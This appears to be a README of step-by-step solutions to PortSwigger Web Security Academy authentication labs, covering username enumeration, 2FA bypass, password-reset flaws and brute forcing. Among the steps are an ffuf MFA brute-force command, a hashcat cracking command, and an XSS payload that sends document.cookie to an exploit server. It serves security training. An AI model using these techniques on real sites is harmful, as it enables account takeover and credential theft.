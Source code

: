 # 🧪 Labs

## Portswigger
1. [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with `Incorrect password` instead of `Incorrect username` in the response body.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.


2.  [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
       - Enter the username and password for `wiener`.
       - Enter the 2FA from the email.
       - Note down the url for my account page.
       - Log out and login as `carlos`.
       - Navigate to the url for my account page.


3.  [Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
      - Generate a password reset token for `wiener`.
      - Using this token reset the password for `carlos`.
      - Reset the password for `carlos`.


4. [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with `Incorrect username or password` instead of `Incorrect username or password.` in the response body. Note the `.` at the end.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.


5. [Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with highest response time.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.

6. [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)
   - Generate the username list and password list by alternating the known attackers credentials and the unknown victim's credentials.
   - Fuzz the username and password using generated lists.
   - Get valid username and password combination from the request which results in 302 status code.


7. [Username enumeration via account lock](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)
   - Fuzz the username and find the username from the request with `too many attempts` in the response.
   - Fuzz the password and find the password using the request which does not have any error message in the response.
   - Login after the wait time is completed.

8.  [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)
   - Login as `wiener`.
   - Send the request to repeater.
   - Use the request to trigger a mfa code to `carlos`.
   - Change the cookie from `verify=wiener` to `verify=carlos`.
   - Use burp intruder to bruteforce the login code in mfa page.
   - Note: Use below command in FFUF to bruteforce the login code.
      ```
      ffuf -w mfa_wordlist.txt:FUZZ -u "https://0a3a00620456a0f483f6e1a8004b00a5.web-security-academy.net/login2" -mc 302 -b "session=c4lf8n8fnIhAOUlR05tCTqtnK2ykkrV8; verify=carlos" -H "Referer: https://0a3a00620456a0f483f6e1a8004b00a5.web-security-academy.net/login2" -X POST -d mfa-code=FUZZ
      ```

9.  [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
   - Login as `wiener` with remember me option enabled.
   - Get the `stay-logged-in` cookie and base64 decode it.
   - The decoded cookie will be in the format wiener:md5hashofpassword
   - Use intruder to bruteforce the password of carlos using the following payload processors.
      - md5hash
      - prefix carlos:
      - base64 encode

10. [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
   - Login as `wiener`
   - Navigate to a blog post.
   - Comment the below code in the post.
      ```
      <script>document.location='https://exploit-0a7d001604d419aa80a26102016000a3.exploit-server.net/'+document.cookie</script>
      ``` 
   - Fetch the cookie and decode it.
   - Find the value for the hash using websites such as crackstation.net or hashes.com
   - Alternatively, you could also use the below command in hashcat to crack using wordlist.
      ```
      hashcat -a 0 -m 0 26323c16d5f4dabff3bb136f2460a943 ~/Wordlists/Rockyou/rockyou.txt
      ```


11. [Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)
   - Intercept the forgot password endpoint.
   - Change the username to `carlos`.
   - Add the header `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
   - Use the token sent to email to reset the password for `carlos`.

12. [Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)
   - Login as `weiner`
   - Change the password and intercept the request.
   - Enter different values for new password and confirm password
   - Notice that, if the current password is wrong the change password request throws an error `Current password is incorrect.` and if the current password is correct it says `New passwords do not match`.
   - Using this different error message bruteforce the password for `carlos`.
   - Login and delete the user `carlos`

13. [Broken brute-force protection, multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)
       - Sign in with username as `carlos` and `test`.
       - Intercept the sign in request.
       - Change the password from `test` to an array of all the values in the password list provided in the lab.
       - Send the request.

14. [2FA bypass using a brute-force attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)
